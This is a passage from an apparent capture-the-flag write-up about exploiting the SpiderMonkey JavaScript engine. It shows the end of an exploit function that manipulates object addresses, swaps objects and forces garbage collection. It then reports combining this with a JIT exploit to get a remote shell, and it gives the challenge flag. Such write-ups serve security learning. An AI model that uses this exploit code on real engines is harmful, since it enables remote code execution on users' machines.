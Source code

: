 ```js
          }
        obj2 = null;
        buf = null;
    }

    obj1.from = 19;
    obj1.swap();
    console.log(objectAddress(writer));
    writer[0]=value;
    writer = null;
    gc();
    gc();
    return out
}
```

Combining with the JIT exploit from the writeup (I made no modifications to the jit part), we get our full exploit script. Testing it on the server we successfully get RCE and enter the server's shell and we can cat the flag.


**Flag:** 
TISC{sp1d3rm0nk3y_sw4p_p4ws_y3kn0mr3d1ps}
